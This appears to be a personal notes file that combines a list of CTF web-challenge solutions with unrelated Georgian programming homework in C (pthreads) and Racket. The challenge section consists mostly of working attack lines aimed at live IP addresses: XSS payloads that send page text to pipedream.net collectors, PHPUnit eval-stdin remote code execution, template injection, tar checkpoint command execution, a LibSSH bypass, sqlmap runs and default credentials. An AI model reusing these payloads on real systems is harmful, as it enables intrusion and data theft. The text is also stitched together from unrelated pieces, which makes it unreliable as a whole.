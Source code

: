 # RED


1.tartarsausage  -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec="ls"        dirsearch -u http://35.246.139.54:31660/enhjenhzZGN3YWRzYWRhc2Rhc3NhY2FzY2FzY2FzY2FjYWNzZHNhY2FzY2Fzc2FjY2Fz/ -e php,txt,html


2.Frameble     <script> fetch('https://eoxmt8wpvlva3h2.m.pipedream.net?data='+document.body.innerText); </script>      AN          <script>fetch('https://enxe7m9zrqkto.x.pipedream.net?data='+document.body.innerText);</script>


-3.rundown     curl -X OPTIONS http://35.246.139.54:30595 -i         http://35.246.139.54:30595/console             curl -X POST http://35.246.139.54:30595 -d "cmd=cat /flag.txt" (ase vipovit rom pickle a)

-4. online-encryption


5 manual-review <script> fetch('https://eoxmt8wpvlva3h2.m.pipedream.net?data='+document.body.innerText); </script>


-6 bolt    http://34.159.151.77:31474/bolt/login admin:password

7 alfa-cookies- https://drive.google.com/file/d/1YjUzKJJnrR0L5DNr3H8GSDFRz73d6ekM/view

8 nondiff-backdoor   grep -r "shell.exec"    34.159.62.179:30876/?welldone=knockknock&shazam=cat flag.php    CTF{87702788126237df9c4a915fea9441345dc6b3a0272b214b2c31e50a8f89c4b1}

9 schematick sqlmap -u http://34.159.62.179:32027/index.php  --cookie="PHPSESSID=e40e1c0f2baba9b6b6d07033355f0819" --forms --columns


10 elastic python exploit.py http://35.198.97.185:31763/ /etc/passwd
11 libshh   nmap -sV -p 30908 --version-light 34.40.24.84
   https://github.com/nikhil1232/LibSSH-Authentication-Bypass  python3 LibAuth.py --host 34.40.24.84 -p 30908 -c "cat /flag.txt"

12 authorization  dirsearch -u IP                     curl -X POST http://34.159.62.179:30798/auth             (aplikacia) ModHeader: Authorization        JWT   <TOKEM>

13 PHPunit  http://35.246.139.54:31380/composer.json    curl -X POST --data '<?php system("id"); ?>' http://35.246.139.54:31380/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php


curl -X POST --data '<?php system("cat /flag.txt"); ?>' http://35.246.139.54:31380/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php


14. SHARK - curl -X POST http://34.40.24.84:31426 \
  -H "Content-Type: application/x-www-form-urlencoded" \
  --data-urlencode "name=<% import os %><% x=os.popen('cat flag').read() %>\${x}"


14


https://jorgectf.github.io/blog/post/cyberedu-web-challenges/#rundown 
(alien-inclusion
address
broken-login
manual-review
rundown

ამოცანა 1 
შექმენით ფუნქცია square_list_in_parallel რომელსაც გადაეცემა int ების მასივი, მასივში

ელემენტების რაოდენობა - num_elemenets და thread ების რაოდენობა - num_threads.

1. ფუნქციამ უნდა მოსტარტოს num_threads რაოდენობის ნაკადი (counter threads).

2. Int ების მასივი უნდა დაიყოს num_threads -ნაწილად.

3. თითოეულმა thread -მა უნდა დაითვალოს მასივის შესაბამისი სეგმენტის

ელემენტების კვადრატების ჯამი.

4. მიღებული ჯამები უნდა შეიკრიბოს გლობალურ ცვლადში int sum_of_all_squares.

5. main ფუნქციაში ასევე უნდა მოისტარტოს monitoring thread, რომელიც

დაელოდება counter thread ების მუშაობის დამთავრებას და დალოგავს

sum_of_all_square ცვლადის მნიშვნელობას. (monitoring thread ის

იმპლემენტაციაში არ შეიძლება counter thread -ებზე join -ით დალოდება, უნდა

გამოიყენოთ სინქრონიზაციის მექანიზმები).

6. main ფუნქცია უნდა დაელოდოს monitoring და counter thread ების მუშაობის

დამთავრებას (გამოიყენეთ join).

ამოცანა 2

დაწერეთ ფუნქცია remove_nth_elements - racket ის გამოყენებით რომლიც მიიღებს სიას

და რიცხვს (N), შედეგად კი დააბრუნებს ახალ სიას რომელშიც წაშლის თავდაპირველი სიის

ყოველ N ინდექსზე მყოფ ელემენტს.



#include <stdio.h>
#include <stdlib.h>
#include <pthread.h>
#include <unistd.h>

int* array;
int sum_of_all_squares = 0;
int threads_completed = 0;
pthread_mutex_t lock;
pthread_cond_t cond;

typedef struct {
    int start_idx;
    int end_idx;
} ThreadData;

void* counter_thread(void* arg) {
    ThreadData* data = (ThreadData*)arg;
    int local_sum = 0;

    for (int i = data->start_idx; i < data->end_idx; i++) {
        local_sum += array[i] * array[i];
    }

    pthread_mutex_lock(&lock);
    sum_of_all_squares += local_sum;
    threads_completed++;
    pthread_cond_signal(&cond); // notify monitoring thread
    pthread_mutex_unlock(&lock);

    free(data);
    return NULL;
}

void* monitoring_thread(void* arg) {
    int num_threads = *(int*)arg;

    pthread_mutex_lock(&lock);
    while (threads_completed < num_threads) {
        pthread_cond_wait(&cond, &lock);
    }
    pthread_mutex_unlock(&lock);

    printf("✅ Final sum of all squares: %d\n", sum_of_all_squares);
    return NULL;
}

void square_list_in_parallel(int* input_array, int num_elements, int num_threads) {
    array = input_array;
    pthread_t threads[num_threads];
    pthread_t monitor;

    pthread_mutex_init(&lock, NULL);
    pthread_cond_init(&cond, NULL);

    int chunk_size = num_elements / num_threads;
    int remaining = num_elements % num_threads;

    // Start counter threads
    for (int i = 0; i < num_threads; i++) {
        ThreadData* data = malloc(sizeof(ThreadData));
        data->start_idx = i * chunk_size;
        data->end_idx = (i == num_threads - 1) ? (i + 1) * chunk_size + remaining : (i + 1) * chunk_size;

        pthread_create(&threads[i], NULL, counter_thread, data);
    }

    // Start monitoring thread
    pthread_create(&monitor, NULL, monitoring_thread, &num_threads);

    // Join all counter threads
    for (int i = 0; i < num_threads; i++) {
        pthread_join(threads[i], NULL);
    }

    // Join monitoring thread
    pthread_join(monitor, NULL);

    pthread_mutex_destroy(&lock);
    pthread_cond_destroy(&cond);
}

// Example usage
int main() {
    int data[] = {1, 2, 3, 4, 5, 6, 7, 8};
    int num_elements = sizeof(data) / sizeof(data[0]);
    int num_threads = 3;

    square_list_in_parallel(data, num_elements, num_threads);
    return 0;
}




#lang racket

(define (remove-nth-elements lst n)
  (define (helper lst index)
    (cond
      [(null? lst) '()]
      [(= (remainder index n) 0) (helper (cdr lst) (+ index 1))]
      [else (cons (car lst) (helper (cdr lst) (+ index 1)))]))
  (helper lst 1)) ; start index from 1

;; მაგალითი:
(remove-nth-elements '(a b c d e f g h) 3) ; დააბრუნებს '(a b d e g h)







